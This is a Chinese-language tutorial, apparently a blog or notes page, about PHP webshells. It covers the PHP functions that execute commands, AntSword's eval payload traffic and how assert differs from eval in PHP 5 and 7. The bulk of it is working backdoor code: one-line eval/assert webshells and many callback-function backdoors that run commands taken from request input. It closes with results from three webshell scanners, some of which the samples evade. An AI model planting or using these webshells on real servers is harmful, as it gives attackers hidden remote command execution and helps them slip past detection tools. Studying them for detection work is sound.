



%pageLock%

## Webshell（PHP）

### 什么是webshell？

Webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客通常会在入侵了一个网站后，将webshell与网站服务器WEB目录下正常的网页文件混在一起，用浏览器来访问webshell得到一个命令执行环境来控制服务器。

### webshell的种类有哪些？

- 单/少功能木马

  能完成写入文件、列目录、执行系统命令等少量功能的WebShell，例如php中的system函数等

- 逻辑木马

  利用系统逻辑漏洞或构造特殊，绕过访问控制或执行特殊功能的WebShell，例如利用php uaf漏洞构造的bypass disable_funtion马

- 一句话木马

   可以在目标服务器上执行PHP代码，并和客户端（如菜刀，Cknife、冰蝎、蚁剑）进行交互的webshell，例如通过eval，assert函数执行php代码的方式，并使用webshell管理工具管理的木马

- 多功能木马

  根据PHP语法，编写较多代码，并在服务器上执行，完成大量间谍功能的Webshell（大马）

其中，一句话木马原理如图所示：


客户端将PHP代码通过特殊参数名（password）,发送给放置在服务器上的一句话木马文件，一句话木马文件则在服务器上执行发来的PHP代码，然后将执行结果回传给客户端，客户端将结果解析并展示给操作者。

### PHP 可执行系统命令的函数

#### system

```php
string system ( string $command [, int &$return_var ] );
# $command为执行的命令，&return_var可选，用来存放命令执行后的状态码
# system 函数执行有回显，可将结果显示在页面上

<?php
	system("whoami");
?>

```

#### passthru

```php
void passthru ( string $command [, int &$return_var ] );
# 和system函数类似，$command为执行的命令，&return_var可选，用来存放命令执行后的状态码
# passthru 执行有回显，可将执行结果显示在页面上

<?php
	passthru("whoami");
?>

```

#### exec

```php
string exec ( string $command [, array &$output [, int &$return_var ]] );
# $command是要执行的命令
# $output是获得执行命令输出的每一行字符串，$return_var用来保存命令执行的状态码（检测成功或失败）
# exec()函数执行无回显，默认返回最后一行结果

<?php
	echo exec("whoami");
?>

<?php  
$test = "ipconfig";   
exec($test,$array);      
print_r($array);  
?>

```

#### shell_exec

```php
string shell_exec( string &command);
# $command是要执行的命令
# shell_exec()函数默认无回显，通过 echo 可将执行结果输出到页面

<?php
	echo shell_exec("whoami");
?>
# `(反引号) shell_exec() 函数实际上仅是反引号 (`) 操作符的变体，当禁用shell_exec时，` 也不可执行
# 在php中称之为执行运算符，PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回

<?php
	echo `whoami`;
?

```

#### popen

```php
resource popen ( string $command , string $mode );
# 函数需要两个参数，一个是执行的命令command，另外一个是指针文件的连接模式mode，有r和w代表读和写。函数不会直接返回执行结果，而是返回一个文件指针，但是命令已经执行。popen()打开一个指向进程的管道，该进程由派生给定的command命令执行而产生。返回一个和fopen()所返回的相同的文件指针，只不过它是单向的（只能用于读或写）并且必须用pclose()来关闭。此指针可以用于fgets()，fgetss()和 fwrite()
<?php  
$command = $_POST[cmd];  
$fp = popen($command,"r");
  
while (!feof($fp)) {
 $out = fgets($fp, 4096);  
 echo  $out;
}  
pclose($fp);  
?>

```

#### proc_open

```php
resource proc_open ( 
string $cmd , 
array $descriptorspec , 
array &$pipes [, string $cwd [, array $env [, array $other_options ]]] 
);
# 与Popen函数类似，但是可以提供双向管道
<?php  
$command = $_POST[cmd];  
$array =   array(  
 array("pipe","r"),   //标准输入  
 array("pipe","w"),   //标准输出内容  
 array("pipe","w")    //标准输出错误  
 );  
  
$fp = proc_open($command,$array,$pipes);   //打开一个进程通道  
echo stream_get_contents($pipes[1]);    //为什么是$pipes[1]，因为1是输出内容  
proc_close($fp);  
?> 

```

#### pcntl_exec

```php
void pcntl_exec ( string $path [, array $args [, array $envs ]] )
# path是可执行二进制文件路径或一个在文件第一行指定了 一个可执行文件路径标头的脚本
# args是一个要传递给程序的参数的字符串数组。
# pcntl是linux下的一个扩展，需要额外安装，可以支持 php 的多线程操作。
# pcntl_exec函数的作用是在当前进程空间执行指定程序，版本要求：PHP > 4.2.0
```

### antSword原理

一句话木马

```php
<?php @eval($_POST['cmd']);?>
```

首先在蚁剑添加手动代理，用于`Burp`抓包分析


```php
// 临时关闭PHP的错误显示功能
@ini_set("display_errors", "0");
// 设置执行时间，为零说明永久执行直到程序结束，是为了防止像dir、上传文件大马时超时。
@set_time_limit(0);
// asenc方法，接收参数，返回参数
function asenc($out){
    return $out;
};
function asoutput(){
    // 从缓冲区取出数据
    $output=ob_get_contents();
    // 清空缓冲区，并将缓冲区关闭
    ob_end_clean();
    echo "b48a94c80a";
    // 输出数据
    echo @asenc($output);
    echo "606e3eed3";
}
// 打开缓冲区，来保存所有的输出
ob_start();
try{
    // $_SERVER["SCRIPT_FILENAME"]是获取当前执行脚本的绝对路径，dirname() 函数返回路径中的目录名称部分，也就是说$D是当前执行脚本所在的目录
    $D=dirname($_SERVER["SCRIPT_FILENAME"]);
    if($D=="")
        // $_SERVER["PATH_TRANSLATED"]获取当前脚本所在文件系统（不是文档根目录）的基本路径。这是在服务器进行虚拟到真实路径的映像后的结果
        $D=dirname($_SERVER["PATH_TRANSLATED"]);
    // 拼接字符串和一个制表位
    $R="{$D}	";
    // 判断是否为Linux的文件目录
    if(substr($D,0,1)!="/"){
        // 遍历盘符
        foreach(range("C","Z")as $L)
            // 如果存在盘符
            if(is_dir("{$L}:"))
                // 拼接字符串
                $R.="{$L}:";
    }else{
        // 否则拼接/
        $R.="/";
    }
    // 拼接制表位
    $R.="	";
    // 判断posix_getegid方法是否存在，存在调用该方法按用户id返回用户相关信息
    $u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";
    // 如果用户信息不为空，则返回name属性，否则调用get_current_user()方法
    $s=($u)?$u["name"]:@get_current_user();
    // 返回运行 PHP 的系统的有关信息 并拼接
    $R.=php_uname();
    $R.="	{$s}";
    echo $R;
    ;}
catch(Exception $e){
    // 捕获异常
    echo "ERROR://".$e->getMessage();
};
// 运行程序
asoutput();
die();
```

```php
// posix_getpwuid — Return info about a user by user id
posix_getpwuid ( int $uid ) : array
// posix_geteuid — Return the effective user ID of the current process
posix_geteuid ( void ) : int
```

将此代码放置在eval函数中执行，返回结果如下图所示：



当使用列目录等命令抓包分析如下：

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out){
    return $out;
};
function asoutput(){
    $output=ob_get_contents();
    ob_end_clean();
    echo "7322e6777";
    echo @asenc($output);
    echo "7529076fb4d2";
}
ob_start();
try{
    $D=base64_decode($_POST["od0d1a967133cb"]);
    $F=@opendir($D);
    if($F==NULL){
        echo("ERROR:// Path Not Found Or No Permission!");
    }else{
        $M=NULL;
        $L=NULL;
        while($N=@readdir($F)){
            $P=$D.$N;
            $T=@date("Y-m-d H:i:s",@filemtime($P));
            @$E=substr(base_convert(@fileperms($P),10,8),-4);
            $R="	".$T."	".@filesize($P)."	".$E."	";
            if(@is_dir($P))
                $M.=$N."/".$R;
            else $L.=$N.$R;
        }
        echo $M.$L;
        @closedir($F);
    };
}catch(Exception $e){
    echo "ERROR://".$e->getMessage();
};
asoutput();
die();
&od0d1a967133cb=QzovcGhwU3R1ZHkvV1dXLw==
```

```php
base64_decode("QzovcGhwU3R1ZHkvV1dXLw==")="C:/phpStudy/WWW/"
```


可以看见，其实用于eval函数执行的代码都是大体相同的，只是更改了`try-catch`代码块中的逻辑，对于传统的webshell管理工具，连接webshell并且执行相关命令需要使用类似`eval`,`assert`等函数将字符串当作php代码执行的性质，当连接成功之后，就可以利用当前web容器可解析的语言执行代码，并完成相关的操作。

脚本要将字符串（或文件流）当做PHP代码来执行，主要会使用到以下函数：

- `eval`：PHP 4，PHP 5，PHP 7+ 均可用，接收一个参数，将字符串作为PHP代码执行

  ```php
  <?php
  	eval("echo system('whoami');");
  ?> 
  //一句话
  <?php
  	@eval($_POST['cmd']);
  ?> 
  ```

- `assert`：PHP 4，PHP5，PHP7.2以下均可使用，一般接收一个参数，PHP5.4.8版本后可以接受两个参数

  ```php
  <?php
  	assert("system('whoami')");
  ?> 
  // 一句话
  <?php
  	assert($_POST['cmd']);
  ?>
  <?php
  	assert($_GET['cmd']);
  ?>
  ```

- 正则匹配类：`prge_replace`，`mb_erge_replace`，`prge_filter`等

  ```php
  // php5.5.0 以下 /e参数还能执行
  <?php
  	preg_replace("/test/e","system('whoami')","jutst test");
  ?> 
  // 一句话
  <?php
      preg_replace("/test/e",@eval($_POST['cmd']),"jutst test");
  ?>
  <?php
      preg_replace("/test/e",$_POST['cmd'],"jutst test");
  ?>
  // php5.5.0+ /e 参数不能使用，推荐使用preg_replace_callback
  <?php
  	function result(){
  		return system("whoami");
  	}
  	preg_replace_callback("//","result","");
  ?>
  // 一句话马
  <?php
      function result(){
  		return @eval($_POST['h']);
  	}
      preg_replace_callback("//","result","");
  ?>
  ```

- 文件包含类：`include`，`include_once`,`require`,`require_once`,`file_get_contents`等

### 回调函数后门

因为本人太菜了，写不出来大马，只能通过常用的函数来实现webshell。

大部分带有回调函数的函数是php中常用的函数，是可以构造回调函数后门，执行系统命令或者使用webshell管理工具连接的。

#### register_shutdown_function

```php
// (PHP 4, PHP 5, PHP 7)
// register_shutdown_function — 注册一个会在php中止时执行的函数
register_shutdown_function ( callable $callback [, mixed $parameter [, mixed $... ]] ) : void
```

```php
// php7+ 存在立即执行函数(function($a){@eval($a)})($_POST['cmd'])
<?php
    function test($a){
    	@eval("$a");
	}
	register_shutdown_function(test,$_POST['cmd']);
?>
```

#### array_udiff_assoc

```php
// (PHP 5, PHP 7)
// array_udiff_assoc — 带索引检查计算数组的差集，用回调函数比较数据
array_udiff_assoc ( array $array1 , array $array2 [, array $... ], callable $value_compare_func ) : array
```

```php
<?php
    function test($a){
        @eval($a);
    }
    array_udiff_assoc(array($_REQUEST['h']),array(1),"test");
?>
```

#### array_intersect_uassoc

```php
// (PHP 5, PHP 7)
// array_intersect_uassoc — 带索引检查计算数组的交集，用回调函数比较索引
array_intersect_uassoc ( array $array1 , array $array2 [, array $... ], callable $key_compare_func ) : array
```

```php
<?php
    array_intersect_uassoc(array($_REQUEST[h]=>" "),array(1),"assert");
?>
<?php
    array_intersect_uassoc(array($_REQUEST[h]=>" "),array(1),"system");
?>
```

#### forward_static_call_array

```php
// forward_static_call_array — 调用静态方法并将参数作为数组传递
forward_static_call_array ( callable $function , array $parameters ) : mixed
```

```php
<?php
	forward_static_call_array("assert",array($_REQUEST['h']));
?>
<?php
	forward_static_call_array("system",array($_REQUEST['h']));
?>
```

#### array_intersect_ukey

```php
// (PHP 5 >= 5.1.0, PHP 7)
// array_intersect_ukey — 用回调函数比较键名来计算数组的交集
```

```php
<?php
    array_intersect_ukey(array($_REQUEST['h']=>1),array(1),"assert");
?>
<?php
    array_intersect_ukey(array($_REQUEST['h']=>1),array(1),"system");
?>
```

#### register_tick_function

```php
// register_tick_function — 注册一个函数，以便在每次被标记时执行
register_tick_function ( callable $function [, mixed $arg [, mixed $... ]] ) : bool
```

```php
<?php
	declare(ticks=1);
	register_tick_function("assert", $_REQUEST['h']);
?>
<?php
	declare(ticks=1);
	register_tick_function("system", $_REQUEST['h']);
?>
```

#### array_reduce

```php
// (PHP 4 >= 4.0.5, PHP 5, PHP 7)
// array_reduce — 用回调函数迭代地将数组简化为单一的值
array_reduce ( array $array , callable $callback [, mixed $initial = NULL ] ) : mixed
```

```php
<?php
	$arr = array(1);
	array_reduce($arr, "assert", $_REQUEST['h']);
?>
<?php
	$arr = array(1);
	array_reduce($arr, "system", $_REQUEST['h']);
?>
```

#### array_udiff

```php
// (PHP 5, PHP 7)
// array_udiff — 用回调函数比较数据来计算数组的差集
array_udiff ( array $array1 , array $array2 [, array $... ], callable $value_compare_func ) : array
```

```php
<?php
	$arr = array($_POST['h']);
	$arr2 = array(1);
	array_udiff($arr, $arr2, "assert");
?>
<?php
	$arr = array($_POST['h']);
	$arr2 = array(1);
	array_udiff($arr, $arr2, "system");
?>
```

### eval && assert 区别

为什么eval函数不能做回调函数的后门？而要使用assert?

为什么构造变量函数一般是1=assert&2=command做为密码连接，或者1=system&2=whoami来执行命令，为什么不能使用1=eval&2连接？

**eval**是一个语言构造器，而不是一个函数，不能被**可变函数**调用；

官方定义的可变函数：

**PHP 支持可变函数的概念。这意味着如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它。可变函数可以用来实现包括回调函数，函数表在内的一些用途,可变函数不能用于例如 echo，print，unset()，isset()，empty()，include，require 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数。**

安装vld扩展可以清楚的看到`php5`，`php7` `assert`函数，`eval`函数在`opcode`中执行过程

> php是解释型语言，所谓“解释型语言”就是指用这种语言写的程序不会被直接编译为本地机器语言（native machine language），而是会被编译为一种中间形式（代码），很显然这种中间形式不可能直接在CPU上执行（因为CPU只能执行本地机器指令），但是这种中间形式可以在使用本地机器指令（如今大多是使用C语言）编写的软件上执行。
>
> PHP使用主要虚拟机（Zend虚拟机，*译注：HHVM也是一种执行PHP代码的虚拟机，但很显然Zend虚拟机还是目前的主流*）可以分为两大部分，它们是紧密相连的:
>
> - 编译栈（compile stack）：识别PHP语言指令，把它们转换为中间形式
> - 执行栈（execution stack）：获取中间形式的代码指令并在引擎上执行，引擎是用C或者汇编编写成的
>
> OPCode
>
> Zend VM的一个OPCode对应虚拟机的一个底层操作。Zend虚拟机有很多OPCode：它们可以做很多事情。随着PHP的发展，也引入了越来越多的OPCode，这都是源于PHP可以做越来越多的事情。可以在PHP的源代码文件Zend/zend_vm_opcodes.h中看到所有的OPCode。
>
> Zend VM的每个OPCode的工作方式都完全相同：它们都有一个handler（*译注：在Zend VM中，handler是一个函数指针，它指向OPCode对应的处理函数的地址，这个处理函数就是用于实现OPCode具体操作的*），这是一个C函数，这个函数就包含了执行这个OPCode时会运行的代码（例如“add”，它就会执行一个基本的加法运算）。每个handler都可以使用0、1或者2个操作数：op1和op2，这个函数运行后，它会后返回一个结果，有时也会返回一段信息（extended_value）

#### php5


可以看到`eval`是`INCLUDE_OR_EVAL`去处理，而`assert`是用`DO_FCALL`去处理

在php源文件`Zend/zend_vm_opcodes.h`中看到所有的`OPCode`,其中在`Zend/zend_vm_def.h`文件中可以看见`DO_FCALL`这个`OPCode`的具体操作


在这里说一下第一个判断条件，因为确实不懂，在网上找了与一下相关的解释

```c
//如果EG(active_op_array)->run_time_cache[]数组中存在这个值，就取出来，毕竟C原生态数组取数据速度要远远超过zend_hash_quick_find(毕竟他要计算hash值，还要遍历，不能达到真正的O(1)
if (CACHED_PTR(opline->op1.literal->cache_slot)) {
    ce = CACHED_PTR(opline->op1.literal->cache_slot);
}
```

如果C原生态数组里没有这个函数，就会进入else if中，进行一个哈希查找，并把函数指针放入 `EX(function_state).function`，最后再调用该函数

然后再看看`INCLUDE_OR_EVAL`


到这里就可以看到为什么eval参数中必须是php代码，而不是命令，当在eval中的参数为命令的时候，就会出现`eval() 'd code`的错误，当参数为php代码的时候，就会直接编译执行参数。

从OPCode中可以看到，eval就是Zend函数，assert是宏编写的，最后在调用上是不同的


#### php7


所以在php7+中，assert断言也已经成为语言解释器，再也不是函数了，所以在php7中使用assert作为回调后门不能成功的原因就在于此。

### 椒图7.2.1.0&&河马&&D盾检测结果比较

#### 河马


#### D盾


#### 椒图7.2.1.0






其中椒图未检测出webshell的原理图如下表

| webshell   | 原理                                                         |
| ---------- | ------------------------------------------------------------ |
| 3.php      | register_shutdown_function ( callable $callback [, [mixed] $parameter [,mixed $... ]] ) : void<br />其中$callback回调函数，它会在脚本执行完之后或者exit()之后执行 |
| 5s.php     | array_intersect_uassoc ( array $array1 , array $array2 [, array $... ],callable $key_compare_func ) : array<br/>索引检查计算数组的交集，用回调函数比较索引<br/>其中$f 是通过hex2bin 与文件最后一个字符以s 命名结合而成assert，由于<br/>php7.1+不可用assert函数，靶机环境7.2，故未成功 |
| 7.php      | array_intersect_ukey ( array $array1 , array $array2 [, array $... ],callable $key_compare_func ) : array<br/>用回调函数比较键名来计算数组的交集<br/>其中通过HTTP Headers Cookie[set-domain-name]将ass 字符与ert 字符拼接,构成assert 将其构造成回调函数，并利用，由于php7.1+不可用assert函数，靶机环境7.2，故未成功 |
| 8.php      | 同5s.php，只不过是为了绕过文件上传后文件重命名，不能截取对应的字符构成assert ；<br/>所以对所有的字符做了一个key,当检索到key 就将其转换，并构成assert |
| test_6.php | forward_static_call_array ( callable $function , array $parameters ) : mixed<br/>调用function 参数给定的用户定义函数或方法。此函数必须在方法上下文中调用，不能在类外部使用。它使用后期静态绑定。与call_user_func_array()类似,转发的方法的所有参数都作为值和数组传递。其中通过HTTP Headers [Referer],截取(-7,-4)的三个字符 比如`http://www.target.com/sys.php `截取sys 这个字符与tem 组合构成system |
| test_7.php | 同7.php，由于目标靶机php版本为7.2，assert断言无法使用，故改为system()执行系统命令 |
| bypass.php | 绕php7.0-7.4中disable_function的poc，且可执行命令            |
